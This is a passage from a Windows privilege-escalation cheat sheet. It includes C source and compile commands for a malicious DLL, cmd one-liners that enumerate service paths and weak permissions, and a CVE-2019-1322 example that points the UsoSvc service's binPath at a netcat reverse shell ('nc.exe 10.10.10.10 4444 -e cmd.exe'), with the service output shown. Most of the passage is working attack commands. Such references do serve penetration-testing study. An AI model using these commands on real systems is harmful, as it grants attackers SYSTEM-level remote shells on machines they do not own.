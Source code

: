     # compile a malicious dll
    - For x64 compile with: "x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
    - For x86 compile with: "i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll"

    # content of windows_dll.c
    #include <windows.h>
    BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
        if (dwReason == DLL_PROCESS_ATTACH) {
            system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
            ExitProcess(0);
        }
        return TRUE;
    }
    ```
*   PATH directories with weak permissions

    ```powershell
    $ for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
    $ for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

    $ sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
    FOR /F %i in (Servicenames.txt) DO echo %i
    type Servicenames.txt
    FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
    ```

Alternatively you can use the Metasploit exploit : `exploit/windows/local/service_permissions`

Note to check file permissions you can use `cacls` and `icacls`

> icacls (Windows Vista +)\
> cacls (Windows XP)

You are looking for `BUILTIN\Users:(F)`(Full access), `BUILTIN\Users:(M)`(Modify access) or `BUILTIN\Users:(W)`(Write-only access) in the output.

#### Example with Windows 10 - CVE-2019-1322 UsoSvc

Prerequisite: Service account

```powershell
PS C:\Windows\system32> sc.exe stop UsoSvc
PS C:\Windows\system32> sc.exe config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "cmd /C C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe qc usosvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: usosvc
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem

PS C:\Windows\system32> sc.exe start UsoSvc
```